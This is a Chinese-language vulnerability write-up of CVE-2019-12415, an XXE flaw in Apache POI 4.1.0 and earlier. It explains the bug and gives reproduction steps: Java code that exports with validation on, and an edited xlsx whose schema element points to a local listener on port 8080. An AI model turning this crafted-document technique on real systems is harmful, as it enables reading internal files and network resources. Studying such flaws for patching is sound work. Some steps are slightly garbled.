

# （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞

## 一、漏洞简介

### 什么是POI

Apache POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1 XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML方法的第三个参数为true逐步进入 isValid触发XXE。



## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个xlsx文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在  标签里面加上一行代码。

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```


然后把xlsx释放出来的所有文件再用zip打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。

